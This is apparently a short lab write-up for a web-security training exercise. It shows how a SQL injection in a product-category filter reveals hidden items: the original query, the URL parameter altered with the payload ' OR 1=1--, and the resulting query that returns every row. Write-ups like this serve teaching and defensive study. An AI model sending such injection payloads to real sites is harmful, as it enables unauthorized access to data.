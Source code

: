 # Lab SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


SQL query carried by application
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

URL for product category
```
https://websec.net/filter?category=Gifts
https://websec.net/filter?category=Accessories
```

Modified Parameter
```
category=Gifts'+OR+1=1--
category=Accessories'+OR+1=1--
```

Proccessed SQL query:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items. 
